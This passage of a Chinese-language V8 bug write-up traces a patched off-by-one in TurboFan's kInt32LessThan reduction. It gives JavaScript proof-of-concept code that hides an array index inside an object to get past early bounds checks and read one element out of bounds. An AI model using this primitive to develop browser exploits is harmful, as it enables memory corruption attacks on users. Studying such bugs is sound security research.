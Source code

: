 该patch打在`MachineOperatorReducer::Reduce`函数中，可以推测这个漏洞与JIT编译器有关。<br>
JIT中的IR优化流程如下

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01f85776de52c12000.png)

其中MachineOperatorReducer发生在Reduce阶段也就是图中`SimplifiedLoweringPhase`阶段，`MachineOperatorReducer::Reduce`会将IR中间代码中的一些可以在编译时就计算出的条件直接优化为一个布尔值。<br>
而我们的patch正好打在了`IrOpcode::kInt32LessThan`分支，也就是如果IR代码中有`kInt32LessThan`的代码调用，将会出现问题，可以溢出一个单位。<br>
而数组的length则是Int32类型，尝试写出如下的测试代码

```
function opt(x) `{`
   var a = [1.1,2.2,3.3,4.4];
   return a[4];
`}`

for (var i=0;i&lt;0x20000;i++) `{`
   opt(i);
`}`

print(opt(i));
```

发现并没有发生溢出，为了追踪优化过程，我们v8自带的`Turbolizer`来查看v8生成的IR图，执行

```
./d8 1.js --trace-turbo --trace-turbo-path ../
```

生成IR图，然后用`Turbolizer`打开查看

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0171b06a0cc24db44d.png)

发现其在`LoadElimination Phase`阶段，直接使用`CheckBounds`来进行检查了，也就是还未到达`SimplifiedLoweringPhase`阶段时，JIT就已经知道这个为越界的访问。因此，我们可以将4包裹在一个字典对象里，这样在`LoadElimination Phase`阶段，JIT就不知道越界了，因为后面还要进行`Escape Analyse`才能知道值。<br>
于是代码修改为这样

```
function opt(x) `{`
   var a = [1.1,2.2,3.3,4.4];
   var e = `{`a:4`}`
   return a[e.a];
`}`

for (var i=0;i&lt;0x20000;i++) `{`
   opt(i);
`}`

print(opt(i));
```

可以发现输出了一个double值
